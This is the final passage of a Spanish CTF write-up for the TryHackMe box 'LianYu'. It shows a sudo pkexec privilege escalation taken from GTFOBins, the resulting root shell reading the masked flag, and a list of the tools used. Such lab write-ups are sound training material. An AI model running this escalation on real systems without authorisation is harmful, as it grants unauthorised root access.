 Consultando [GTFOBins](https://gtfobins.github.io/gtfobins) vemos que se puede aprovechar que *pkexec* se ejecute como root usando el siguiente comando.

`sudo pkexec /bin/sh`

Una vez hecho esto ya seremos *root*.

```console
s****@LianYu:~$ sudo pkexec /bin/sh
# ls
root.txt
# cat root.txt
                          Mission accomplished

You are injected me with Mirakuru:) ---> Now s**** Will become DEATHSTROKE.

THM{**********}
                                                                              --DEATHSTROKE
```

## Conclusion

Iniciación a máquinas vulnerables.

### Techniques and Tools

1. nmap
2. ffuf
3. steghide
4. hexeditor
5. PE (Privilege Escalation)

